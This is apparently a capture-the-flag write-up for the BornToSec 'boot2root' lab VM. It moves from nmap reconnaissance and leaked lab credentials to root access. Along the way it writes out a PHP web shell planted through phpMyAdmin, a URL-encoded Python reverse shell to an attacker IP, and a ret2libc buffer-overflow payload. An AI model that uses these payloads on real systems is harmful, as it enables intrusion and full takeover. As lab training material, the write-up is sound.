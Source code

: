 # Information Gathering
We have no info about the machine we can begin finding the IP of the machine and some open ports

nmap -sn 172.20.10.0/24
Nmap scan report for 172.20.10.2
Host is up (0.00025s latency).

We will make an agressive test on the IP to check open ports and some exploit opportunity

21/tcp  open  ftp        vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hack me if you can
143/tcp open  imap       Dovecot imapd
|_ssl-date: 2024-08-23T12:41:41+00:00; 0s from scanner time.
|_imap-capabilities: ENABLE Pre-login LOGIN-REFERRALS ID more post-login have listed IMAP4rev1 LITERAL+ SASL-IR capabilities STARTTLS LOGINDISABLEDA0001 OK IDLE
443/tcp open  ssl/http   Apache httpd 2.2.22
|_ssl-date: 2024-08-23T12:41:41+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: 404 Not Found
993/tcp open  ssl/imaps?
|_ssl-date: 2024-08-23T12:41:41+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

We can see a lot of interesting services running on the machine first of all a website
When we try to reach the page we have "Not found" first reflex we have to find the right route for this I will use dirbub enumerate the routes
We have some interesting results we can see that we have a forum, a squirrelmail service and a phpmyadmin

With wappalyzer extension we can see that squirrel mail version is 1.4.22

We have a lot of users
admin
lmezard
qudevide
thor
wandre
zaz

we found a password for lmezard on a post : !q\]Ej?*5K5cy*AJ
With this password we can connect on forum.

we found it's mail laurie@borntosec.net we can now connect to squirrelmail

In squirrelmail we have a db root password root/Fg-'kKXBj87E:aJ$

This access gives us something interesting squirrel 1.4.22 is vulnerable to a remote code execution it means that we can have a shell or we can inject a shell in
phpmyadmin

We must find a file where we can upload our shell here it is : templates_c found on the documentation.
https://github.com/My-Little-Forum/mylittleforum/wiki/Installation

I will choose the second option :
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/backdoor.php"

you have to url encode the reverse shell and put it in the url ip/forum/templates_c/backdoor.php?cmd=exploit
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22172.20.10.3%22%2C9001%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27%0A%0A

in /home/LOOKATME we have lmezard password : G!@M6f4Eatau{sF"

# lmezard

we have a file in lmezard home named fun if we make strings fun we can see with some greps that the password is : getme1() + getme2() + ... + getme12() functions

	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");

I made a python script to parse files .pcap but only ascii text
The format of files is /file followed by number and then the content I put it in C files and then compile

Iheartpwnage in SHA256 = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

laurie password = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

# Bomb binary laurie

Now we have bomb binary decompiling it we can try to defuse :

First input : Public speaking is very easy.

Each subsequent number must follow the pattern defined in the loop:
    v4[i]=v4[i-1]×(i+1)
    v4[0] = 1
	v4[1]= v4[0]× 2 = 2
    v4[2]= v4[1]× 3 = 2 × 3 = 6
    v4[3]= v4[2]× 4 = 6 × 4 = 24
    v4[4]= v4[3]× 5 = 24 × 5 = 120
    v4[5]= v4[4]× 6 = 120 × 6 = 720

Second input : 1 2 6 24 120 720

Third input : 7 b 524

Fourth input : 9


Fifth :

.data:0804B220 array_123       db 69h  ; i
.data:0804B221                 db  73h ; s
.data:0804B222                 db  72h ; r
.data:0804B223                 db  76h ; v
.data:0804B224                 db  65h ; e
.data:0804B225                 db  61h ; a
.data:0804B226                 db  77h ; w
.data:0804B227                 db  68h ; h
.data:0804B228                 db  6Fh ; o
.data:0804B229                 db  62h ; b
.data:0804B22A                 db  70h ; p
.data:0804B22B                 db  6Eh ; n
.data:0804B22C                 db  75h ; u
.data:0804B22D                 db  74h ; t
.data:0804B22E                 db  66h ; f
.data:0804B22F                 db  67h ; g

We have to build the string giants with the letters in array_123 so we need to have index & 15

array_123[15] + array_123[0] + array_123[5] + array_123[11] + array_123[13] + array_123[1]

index = index & 15

Fifth input : o0ukmA (one of the possibility more in the script)
# if we only take ascii lowercase uppercase and digits
g: ['o', 'O']
i: ['p', 'P', '0']
a: ['e', 'u', 'E', 'U', '5']
n: ['k', 'K']
t: ['m', 'M']
s: ['a', 'q', 'A', 'Q', '1']

Sixth :
node1 = 253
node2 = 725
node3 = 301
node4 = 997
node5 = 212
node6 = 432
We have to sort the node in descending order doing permutations in the input (input < 6)

Sixth input : 4 2 6 3 1 5

with the different possibilites we had to bruteforce to find the password with string.ascii_lowercase

Thor password : Publicspeakingisveryeasy.126241207201b2149opekmq426135

# Thor

For thor we have a turtle file with instruction we will resolve it with python script it's writing the word SLASH

https://www.browserling.com/tools/all-hashes
and we have to hash it as said at the end of the file and in MD5 it gives us : 646da671ca01bb5d84dbb5fb2238dc8e


Zaz password : 646da671ca01bb5d84dbb5fb2238dc8e

# Zaz

In this binary when decompiled we direcly see the buffer overflow we'll do a ret2libc to gain a shell

p system : 0xb7e6b060
find 0xb7e2c000,0xb7fcf000,"/bin/sh" : 0xb7f8cc58
p exit : 0xb7e5ebe0

Offset 140 calculated with [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) => print("A" * 140) + struct.pack("I", 0xb7e6b060) + struct.pack("I", 0xb7e5ebe0) + struct.pack("I", 0xb7f8cc58)

We have a root shell
